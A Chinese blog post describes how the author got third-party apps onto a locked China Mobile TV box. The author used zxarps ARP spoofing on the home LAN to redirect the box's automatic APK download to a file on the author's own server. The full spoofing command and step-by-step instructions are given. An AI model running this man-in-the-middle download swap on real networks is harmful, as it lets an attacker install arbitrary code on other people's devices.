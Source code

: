 ```yaml
---
layout: post
title: Hack移动魔盒，安装第三方应用
tags: [杂文]
---
```


最近安装了移动电视魔盒，可电视节目很无聊，想着安装个直播软件应用。

可不得不说移动还是很坏的，内置的应用市场里面该有的应用一概没有。我轻视的一笑，这能难道我？找了个U盘，把应用copy进去，再插到盒子上，点开apk安装，动作一气呵成。正当我准备帅气回头的时候，屏幕上跳出一个弹框：不支持第三方应用安装，，，what the f***？？？移动真是太坏了，内置应用少不说，还不让别人安装应用。。。

百度了下，发现并没有太多的解决办法，甚至连改电路板都用上了，至于吗。。。

<br/>

### 问题分析

先来分析下盒子的情况：

- 盒子是Android 定制系统

- 通过内置应用市场，可以安装应用
- 点击主页的某个功能，会先下载APK，并会自动安装
- 通过U盘无法安装
- 定制系统应该是修改了Android的安装api，并有自己的安装api
- 虽然是Android系统，但是无法直接调试它

结论是：盒子通过私有api是可以安装第三方应用的，而原Android的安装api被修改了。

<br/>

### 解决思路

要如何绕过这个限制呢？转换下思路：可不可以Hack魔盒原本要下载的APK文件，替换成要安装的第三方APK呢？这样就不用关心系统定制的问题，反正魔盒会在下载完成后自动安装。

实践证明，这个思路是可行的，借助局域网ARP欺骗来Hack下载的文件地址：

```bash
zxarps.exe -idx 0 -ip 192.168.1.35 -spoofmode 3 -postfix ".apk" -hackurl http://192.168.1.28/apk/ -filename douyu.apk
```

使用`zxarps` 软件，上面的命令中：

- `-ip 192.168.1.35` 表示要欺骗的ip地址，也就是魔盒的ip地址
- `-spoofmode 3` 表示将数据骗发到本机。 1：网关，2：目标机，3：both
- `-postfix ".apk"` 表示关注的文件后缀名
- `-hackurl http://192.168.1.28/apk/` 表示当发现有关注的文件下载时，将url地址修改为这个url
- `-filename douyu.apk` 表示替换后要下载的资源

<br/>

### 具体步骤

更具体的就是：

1. 电脑跟魔盒在一个局域网内。电脑ip是192.168.1.28，魔盒ip是192.168.1.35。
2. 起一个服务器，做hack的第三方应用下载服务器。
3. 下载要安装的第三方应用，放到下载服务器的相应位置。
4. 执行上面的ARP欺骗命令，监听魔盒的文件下载。
5. 在魔盒主页点击某个功能，触发魔盒下载应用。
6. 若一切正常，魔盒会去下载`http://192.168.1.28/apk/douyu.apk`
7. 下载完成之后，魔盒开始自动安装。等安装完成后，在`我的应用`中就能看到第三方应用了。

<br/>

### 参考

[局域网ARP欺骗](https://www.cnblogs.com/xcj26/articles/6073411.html)

[zxarps命令](http://huaidan.org/archives/864.html)